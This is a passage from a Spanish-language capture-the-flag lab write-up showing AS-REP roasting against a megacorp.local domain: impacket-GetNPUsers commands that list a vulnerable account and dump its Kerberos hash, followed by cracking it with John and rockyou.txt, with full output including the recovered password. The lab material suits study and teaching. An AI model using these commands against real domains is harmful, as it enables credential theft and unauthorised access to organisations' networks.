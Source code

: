 Comenzaremos por usar las credenciales que ya conocíamos para listar los usuarios vulnerables:

```bash
impacket-GetNPUsers megacorp.local/sandra:Password1234! -dc-ip 10.10.10.30
```

```plaintext
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Name     MemberOf                                                    PasswordLastSet             LastLogon                   UAC      
-------  ----------------------------------------------------------  --------------------------  --------------------------  --------
svc_bes  CN=Remote Management Users,CN=Builtin,DC=MEGACORP,DC=LOCAL  2020-03-21 01:16:54.721477  2020-01-31 19:43:08.298549  0x400200
```

Podemos ver que efectivamente el usuario svc_bes es vulnerable. Por lo que trataremos de listar su TGT (Ticket Granting Ticket). Para ello:

```bash
impacket-GetNPUsers megacorp.local/svc_bes -no-pass -dc-ip 10.10.10.30
```

```plaintext
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:29999316dfd44a06aee015719371564c$476126f61c926e3af5760980f6bcc96685e76e2144cf5a001e807c91016fe4f4bc46acd6194c385465e02465bf68d33295542244e394fbd487cb29381970222a6f0eeab4ea29c9bb2c319a9ca191890d23abe953e77371e5cbcbf96ea099d898822860eb98ef7ef7f47af1dd04c8c493484a6873faeb66bb89932931425ec5bfab6a65045cbc8420ac05b4fb62a45abf2096cb0afbf7a53ed4a307bb16124f68fe820b4009aad5f4e3d79d508b1ae3129456701f29c6a6608d85ab89cb770f240d5dd0124b19ce78d2a0655d44895097b0d403b1598849fb920b34166ca7ba12c24fcf1fb467588fd3686ceed909112f
```

<br>

### Cracking
Una vez obtenemos el TGT (Ticket Granting Ticket) del usuario trataremos de crackear el mismo, ya que como sabemos, este hash no nos permite hacer PTH (Pass The Hash). Para ello usaremos [John](https://github.com/openwall/john) junto al diccionario rockyou.txt:

```bash
john hash -w=/usr/share/wordlists/rockyou.txt
```

```plaintext
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:18 DONE (2021-07-14 16:19) 0.05555g/s 589056p/s 589056c/s 589056C/s Sherbear94..Sheepy04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
